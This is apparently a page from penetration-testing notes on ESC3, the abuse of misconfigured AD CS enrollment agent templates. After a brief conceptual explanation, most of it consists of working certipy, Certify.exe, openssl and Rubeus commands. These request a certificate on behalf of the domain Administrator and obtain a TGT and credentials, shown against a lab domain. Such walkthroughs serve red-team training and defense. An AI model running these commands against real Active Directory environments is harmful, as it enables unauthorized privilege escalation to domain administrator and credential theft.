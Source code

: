 ```yaml
---
description: Abusing Misconfigured Enrollment Agent Templates.
---
```


# ESC3

### <mark style="color:yellow;">What is ESC3</mark>

Very similar to ESC1 and ESC2 but uses a different Extended Key Usage (EKU). EKU `Certificate Request Agent` enables a principal to request a certificate on behalf of another user, like an administrator to request a certificate on behalf of another user.&#x20;

{% stepper %}
{% step %}
#### Special template

AD CS uses a certificate template that includes a specific identifier (OID: 1.3.6.1.4.1.311.20.2.1) for the **Certificate Request Agent** role.
{% endstep %}

{% step %}
#### **Enrollment Agent Certificate**

* The IT admin (enrollment agent) gets a certificate based on this template.
* This certificate allows them to request certificates for other users.
{% endstep %}

{% step %}
**Signing the Request**

The enrollment agent creates and signs a certificate request (CSR) on behalf of the user using their enrollment agent certificate.
{% endstep %}

{% step %}
**Issuing the Certificate**

The CA verifies the request and issues a certificate for the other user.
{% endstep %}
{% endstepper %}

### <mark style="color:yellow;">ESC3 Abuse from Linux</mark>

Look for a template whose EKU permits using the issued certificate as a `Certificate Request Agent`:

```bash
certipy find -u 'john@lab.local' -p 'Password123!' -dc-ip 10.129.205.199 -vulnerable -stdout

# In output
[!] Vulnerabilities
      ESC3                              : 'LAB.LOCAL\\Domain Users' can enroll and template has Certificate Request Agent EKU set
```

#### Authenticate with certificate and get TGT

```bash
# Request for user
certipy req -u 'blwasp@lab.local' -p 'Password123!' -ca 'lab-LAB-DC-CA' -template 'ESC3'

# Request for administrator account
certipy-ad req -u 'blwasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template user -on-behalf-of 'lab\administrator' -pfx blwasp.pfx
```

### <mark style="color:yellow;">ESC3 Abuse from Windows</mark>

Look for a template whose EKU permits using the issued certificate as a `Certificate Request Agent`:

```powershell
# Enumerate
.\Certify.exe find /vulnerable

# Request certificate with ESC3 
.\Certify.exe request /ca:LAB-DC.lab.local\lab-LAB-DC-CA /template:ESC3

# Convert cert to pfx
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Request certificate on behalf of Administrator
.\Certify.exe request /ca:LAB-DC.lab.local\lab-LAB-DC-CA /template:User /onbehalfof:LAB\Administrator /enrollcert:cert.pfx

# Convert cert to pfx again
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in admin.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out admin.pfx

# Get TGT as administrator
.\Rubeus.exe asktgt /user:lab\Administrator /certificate:admin.pfx /getcredentials
```
